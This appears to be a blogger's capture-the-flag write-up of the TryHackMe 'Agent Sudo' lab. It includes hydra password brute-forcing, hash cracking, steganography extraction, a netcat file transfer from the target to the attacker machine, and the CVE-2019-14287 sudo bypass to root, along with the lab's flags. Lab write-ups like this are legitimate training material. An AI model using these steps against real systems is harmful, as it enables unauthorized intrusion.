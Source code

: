 ```yaml
---
tagline: agentsudo
title: Agent Sudo - Writeup
description: Mom, I think there are aliens outside...
banner: /blog/agentsudobanner.jpeg/
banner_alt: better late than never, better late than never
date: '2024-03-4'
---
```


## Nmap

```bash:Terminal
┌──(vipin㉿vipin)-[~]
└─$ sudo nmap -sS -sV 10.10.137.85
[sudo] password for vipin: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-03 22:53 EST
Nmap scan report for 10.10.137.85
Host is up (0.094s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.10 seconds
```

- 3 open ports

## Enumerate cont'd

- To redirect to the secret page, we need to modify the **user-agent** using cURL. I used the command ```curl -A <useragent> 10.10.137.85 -L``` and trying *R* as a user agent shows this.

![Image showing result of R](/blog/agentsudopics/useragentcurl.png 'Fig.1')

- When we try C we get this

![Image showing result of C](/blog/agentsudopics/chris.png 'Fig.2')

- Now we know his name is chris and that his password is weak (not actually weak)

## Hash cracking and brute-force

- I cracked the FTP Password using this command ```hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.194.92 -V```

![Image showing ftp cracked](/blog/agentsudopics/ftpcracked.png 'Fig.3')

- Next is logging into the ftp server with ```ftp user@ip```. Inside we find a txt file that reads

```txt:Text Editor
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

- Lets also ```get``` the other images. Inside *cutie.png*, we find a zip file (binwalk'ed) that is password protected.

```bash:Terminal
┌──(vipin㉿vipin)-[~/Downloads]
└─$ zip2john 8702.zip > 8702.hash
                                                                                                      
┌──(vipin㉿vipin)-[~/Downloads]
└─$ john 8702.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 128/128 ASIMD 4x])
Cost 1 (HMAC size) is 78 for all loaded hashes
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
alien            (8702.zip/To_agentR.txt)     
1g 0:00:00:02 DONE 2/3 (2024-03-04 21:35) 0.4975g/s 22230p/s 22230c/s 22230C/s 123456..Peter
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

- Inside the zip file was a txt file named *To_agentR.txt* which says this

```txt:Text Editor
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

- It seem like the text is in base64

```bash:Terminal
┌──(vipin㉿vipin)-[~/Downloads]
└─$ echo 'QXJlYTUx' | base64 -d
Area51           
```

- Now that we have the steg password lets extract text the other image

```bash:Terminal
┌──(vipin㉿vipin)-[~]
└─$ steghide --extract -p Area51 -sf cute-alien.jpg
wrote extracted data to "message.txt".

┌──(vipin㉿vipin)-[~]
└─$ cat message.txt                                                                   
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

- Thats a LOT of information, enough to get us to the next section.

## Capture the user flag

```bash:Terminal
┌──(vipin㉿vipin)-[~]
└─$ ssh james@10.10.194.92                         
The authenticity of host '10.10.194.92 (10.10.194.92)' can't be established.
ED25519 key fingerprint is SHA256:rt6rNpPo1pGMkl4PRRE7NaQKAHV+UNkS9BfrCy8jVCA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.194.92' (ED25519) to the list of known hosts.
james@10.10.194.92's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-55-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Mar  5 02:49:58 UTC 2024

  System load:  0.0               Processes:           92
  Usage of /:   39.7% of 9.78GB   Users logged in:     0
  Memory usage: 31%               IP address for eth0: 10.10.194.92
  Swap usage:   0%


75 packages can be updated.
33 updates are security updates.


Last login: Tue Oct 29 14:26:27 2019
james@agent-sudo:~$ ls
Alien_autospy.jpg  user_flag.txt
james@agent-sudo:~$ cat user_flag.txt 
b03d975e8c92a7c04146cfa7a5a313c7
```

- Now for the next question, utilizing netcat I transfered the file to my vm

```bash:Terminal
james@agent-sudo:~$ nc -w 5 10.6.22.229 6969 < /home/james/Alien_autospy.jpg

# on another window

┌──(vipin㉿vipin)-[~/Desktop]
└─$ nc -lvnp 6969 > Alien_autopsy.jpg
```

- Now using google search, we find this various results but no fox news, but using the other articles I learned that some guy named Roswell faked an alien autopsy which gives us the answer *roswell alien autopsy*.

## Privilege escalation

> it's the most wonderful time of the Machine

- We start by running ```find / -uid 0 -perm -4000 -type f 2>/dev/null``` to find exploitable SUID Binaries and sudo seems to be one.

```bash:Terminal
james@agent-sudo:~$ sudo -l
[sudo] password for james: 
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

- A little searching find us [this](https://www.exploit-db.com/exploits/47502) exploit which tells us the CVE (CVE-2019-14287) & how to privilege escalate!

```bash:Terminal
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# cat /root/root.txt 
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
```

### MACHINE PWN'ED 😎

![My Tryhackme badge](https://tryhackme-badges.s3.amazonaws.com/vipin.b.png)
